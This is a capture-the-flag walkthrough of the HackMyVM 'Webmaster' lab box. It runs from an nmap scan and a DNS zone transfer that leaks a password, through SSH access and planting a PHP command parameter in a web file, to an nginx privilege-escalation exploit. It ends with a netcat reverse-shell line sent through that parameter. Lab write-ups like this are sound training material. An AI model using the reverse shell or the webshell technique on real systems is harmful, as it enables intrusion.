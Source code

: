 # HackMyVM-Webaster

## Netdiscover

<img src="https://imgur.com/4MBBH8n.png"/>


## NMAP

```
Nmap scan report for 192.168.1.131                                                                                                            [4/84]
Host is up (0.000055s latency).
Not shown: 997 closed ports                                                                                                                         
PORT   STATE SERVICE VERSION                                              
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:                                                                                                                                      
|   2048 6d:7e:d2:d5:d0:45:36:d7:c9:ed:3e:1d:5c:86:fb:e4 (RSA)
|   256 04:9d:9a:de:af:31:33:1c:7c:24:4a:97:38:76:f5:f7 (ECDSA)
|_  256 b0:8c:ed:ea:13:0f:03:2a:f3:60:8a:c3:ba:68:4a:be (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| dns-nsid: 
|_  bind.version: not currently available
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    currently available
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/
submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/11%Time=5FFB65ED%P=x86_64-pc-linux-gnu%r(DNSV 
SF:ersionBindReqTCP,52,"\0P\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x 
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x18\x17not\x20curren 
SF:tly\x20available\xc0\x0c\0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
MAC Address: 08:00:27:FE:8A:1A (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.04 seconds

```

## PORT 80

<img src="https://i.ibb.co/PC2Bbz2/Screenshot-2021-01-11-01-49-39.png"/>

Looking at the source

<img src="https://i.ibb.co/zSj2DmC/Screenshot-2021-01-11-01-49-39.png"/>

So this `webmaster.hmv` refers to a domain name let's add this to `/etc/hosts`.

Now by adding the domain name we are going to do a `Zone transfer` which is a DNS query type AXFR, is a type of DNS transaction.Zone transfers are typically used to replicate DNS data across a number of DNS servers or to back up DNS files.

<img src="https://i.ibb.co/7RLr7SW/Screenshot-2021-01-11-01-49-39.png"/>

We got `john`'s passwords so now let's ssh into the machine.

<img src="https://i.ibb.co/H73FMvG/Screenshot-2021-01-11-01-49-39.png"/>

By running `sudo -l` we can see what can we run as root user

<img src="https://i.ibb.co/Hx7ksWB/Screenshot-2021-01-11-01-49-39.png"/>

We can find an LPE (Local Privilege Escalation) for nginx

<img src="https://i.ibb.co/6BN0jgZ/Screenshot-2021-01-11-01-49-39.png"/>

Let's download this to our machine and transfer it to target machine

<img src="https://i.ibb.co/bPhkV1w/Screenshot-2021-01-11-01-49-39.png"/>

To run this we need to provide the path of nginx error log which is located at `/var/log/nginx/error.log`

Run this like `./40768.sh /var/log/nginx/error.log`

<img src="https://i.ibb.co/bbLQyLf/Screenshot-2021-01-11-01-49-39.png"/>

But we couldn't run the exploit has it is needed to be run as `www-data` so only thing I could thing was to change the contents of one of the webserver files and insert a simple php GET paramter vulnerable code which will allow us to execute commands

<img src="https://i.ibb.co/LJ29gxT/Screenshot-2021-01-11-01-49-39.png"/>

<img src="https://i.ibb.co/4MQyn6r/root.png"/>

Then you can just do `nc your_ip your_netcat_port -e /bin/bash` on `cmd` paramter to get reverse shell

<img src="https://i.ibb.co/QCZQLxW/Screenshot-2021-01-11-01-49-39.png"/>
